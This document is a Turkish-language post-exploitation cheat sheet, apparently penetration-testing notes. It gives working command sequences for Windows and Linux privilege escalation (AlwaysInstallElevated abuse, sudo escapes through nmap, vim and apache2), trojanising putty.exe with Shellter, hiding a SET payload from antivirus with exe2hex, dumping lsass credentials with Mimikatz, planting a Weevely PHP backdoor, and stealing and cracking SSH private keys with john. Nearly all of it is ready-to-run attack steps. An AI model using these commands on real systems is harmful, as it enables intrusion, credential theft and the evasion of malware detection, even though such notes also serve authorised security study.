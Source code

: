 ## 09. POST EXPLOİTATİON (İSTİSMAR SONRASI):

### YETKİ YÜKSELTME (WINDOWS)
    systeminfo hotfix dosyalarına bak. Güncelleme almayan yamayı bul. Sisteme sok.Yetki yükselt.
    
    Güncellemelerin Kontrolü : wmic qfe get Description, HotFixID, InstalledOn
   
    Yüklü uygulamaların kontrolü :  “wmic product get name, version”
   
    Bilinmeyen Path Yollarını Kontrol Etme : accessChk.exe aracıyla 
    
    Msi paketinin yüklenmesinin kontrolü : “reg query 
    
    HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer”  -> PS ekranına komutu girin. Değer 1 olarak ayarlıysa zafiyet mevcuttur. Zafiyeti tetiklemek için msi paketi üretmek gerekir.
    Import-Module .\powerup.ps1
    Write-UserAddMSI ile kullanıcı oluştur.

### YETKİ YÜKSELTME (LINUX)
    ***Kernel kontrol et. “uname -a” ile kernel sürümüne bak. Exploit ara.
    “searchsploit” den ara

    *** sudo –l komutu ile sudoers yetkilerini kontrol et.  

    1.  .bash_history dosyası okunarak önceden girilmiş komutlar incelenir.
    2.	İçinde password geçen dosyalar find komutu ile taranır.
    3.	sudo -l komutu ile yetkilere bakıldığında;
    nmap:
    sudo /usr/bin/nmap --interactive yazarak nmap komut satırına düşebiliriz.  !sh yazılır.
    vim:
    sudo /usr/bin/vim –c ‘!/bin/sh’
    apache2:
    sudo /usr/sbin/apache2 –f /etc/shadow    (shadow dosyasının içini okuma)

### Shellter :
	Oluşturulan zararlıyı başka dosyayla birleştirme aracı.
    Windows örneği : 
	a -> Enter -> no -> putty.exe -> y
	7 payload var. l seçersek listeden c seçersek kendi payloadımız.
	l -> 1 -> ip adresi -> port -> 

### Exe2Hex :
    exe dosyalarını binary kodlarına çeviren araç. Bu sayede virüs programları bulamıyor.
    Örnek : Önce payload oluşturuyoruz. (SET programı ile)
    1 -> 4 creat payload -> 2 -> local ip gir -> port gir -> trojen oluştu. (payload.exe)
    “exe2hex -x payload.exe -p payload.cmd”
    Oluşturulan payload.cmd dosyasını metin belgesi ile aç. En sonuna hemen çalışması için start payload.exe gir .Kaydet.
    Hedef pc’de çalıştığında önce exe haline çevirir. En son yazdığımız komutla o exe çalışır.

### Mimikatz :
    Windows üzerinde parola elde etmeye yarayan araç.
    1.	Görev yöneticisinden lsass.exe ‘yi dump al.
    2.	Dinleme moduna al;	
    mimikatz # privilege::debug
    3.	Dump dosyasını mimikatz klasörüne at yada yolunu belirt.
    mimikatz # sekurlsa::minidump lsass.dmp
    4.	mimikatz # sekurlsa::logonPasswords full

### Powersploit :
	Windows üzerinde powershell ile çalışır.

### Proxy Chains :
	Ağ testlerinde gizlilik sağlayan bir araç. (Tor ağı üzerinden). Hız olarak biraz yavaş.

### 4nonimizer :
	Ağ üzerinde gizlilik sağlar.

	https://github.com/Hackplayers/4nonimizer.git githubdan indir.
	
	./4nonimizer install -> Yükle
	
	./4nonimizer start -> Programı başlat. ip adresini değiştirir.Vpn mantığı. Durdurmak için stop komutunu kullan

### Weevely :
	Php sunucularda virüs programına ve güvenlik duvarlarına yakalanmayan troje oluşturmaya yarar.
	“weevely generate 12345 /root/...  .php” (Arka kapı oluşturma işlemi)
    “weevely hedefe_atmış_olduğun_dosya_yolu 12345”

### SSH Private Key
    Sisteme girdikten sonra yetkili kullanıcının SSH Private Keyini /home/yetkili_kullanıcı/.ssh dizini altından okuyorsak locale alıp id_rsa.txt olarak kaydet.
    
    python3 /usr/share/john/ssh2john.py id_rsa.txt > decrypted.txt   (john anlayacağı şekle dönüştürür)
    
    john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt (şifreyi kırar)
    
    ssh yetkili_kullanıcı@hedef_ip -i id_rsa.txt  (bağlan)  (yetki hatası verirse 0400 olarak chmod ver)
